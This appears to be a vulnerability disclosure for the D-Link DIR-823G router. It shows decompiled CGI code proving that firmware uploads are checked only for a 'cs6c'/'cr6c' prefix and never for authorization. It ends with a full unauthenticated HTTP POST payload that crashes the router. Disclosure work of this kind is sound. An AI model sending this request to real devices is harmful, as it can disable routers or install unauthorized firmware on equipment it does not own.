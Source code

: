 # DIR-823G-Update the firmware without authorization verification. #

DIR-823G
Upload firmware without review authority, put the router in a high-risk state or deny service.
## Vulnerable Firmware Versions ##

DIR-823G REVA1 1.02B05(Lastest) 

## Analysis ##
Found `<form class="clearboth" style="position:relative" action="/cgi-bin/upload_firmware.cgi" method="post" id="upload_form" enctype="multipart/form-data ">` in **/web_mtn/FirmwareUpdate.html**.

So,uploading firmware update files should be processed by **/cgi-bin/upload_firmware.cgi**.

Try to upload a firmware file and intercept it with Burp Suite.

![burp_1.png](https://i.loli.net/2020/09/06/NwnB8sODLhYfxdr.png)

In upload_firmware.cgi:

    
      __src = (char *)FUN_00400eb4(__filename);
      iVar2 = strncmp(__src,"SUCCESS",7);
      if (iVar2 == 0) {
    printf(
       "window.setTimeout(\"location.href=\'http://%s/FirmwareUpdate.html?UpdateResult=%s\'\",0);"
       ,&local_4f8,"SUCCESS");
	}

In FUN_00400eb4:

    iVar3 = memcmp((void *)((int)__buf + __fd),&DAT_00401640,4);
      if ((iVar3 == 0) ||
     (__fd = memcmp((void *)((int)__buf + __fd),&DAT_00401648,4), __fd == 0)) {
    free(__buf);
    pcVar1 = "SUCCESS";
      }

    //LOAD:00401640 aCs6c:  .ascii "cs6c"
    //LOAD:00401648 aCr6c:  .ascii "cr6c"

It seems that there is no authorization verification, only the first four data that need to be submitted are cs6c/cr6c.

![burp_2.png](https://i.loli.net/2020/09/06/u75SmxaP9WHXfwj.png)

> ubuntu@ubuntu:~$ nmap 192.168.0.1
> 
> Starting Nmap 7.01 ( https://nmap.org ) at 2020-09-05 22:36 PDT
> Nmap scan report for 192.168.0.1
> Host is up (0.16s latency).
> All 1000 scanned ports on 192.168.0.1 are closed
> 
> Nmap done: 1 IP address (1 host up) scanned in 1.13 seconds

Successfully make the router stop working.

    
## Payload & Exploitation##
    POST /cgi-bin/upload_firmware.cgi HTTP/1.1
    Host: 192.168.0.1
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: multipart/form-data; boundary=---------------------------28278418346116865854153533320
    Content-Length: 213
    Origin: http://192.168.0.1
    Connection: close
    Referer: http://192.168.0.1/FirmwareUpdate.html
    Upgrade-Insecure-Requests: 1
    -----------------------------28278418346116865854153533320
    Content-Disposition: form-data; name="uploadConfigFile"; filename="DIR823G_V1.0.2B05_20181207.bin"
    Content-Type: application/octet-stream
    cr6c crash!

An attacker can update the firmware or make the router stop working without permission.It may even make the router completely unusable.
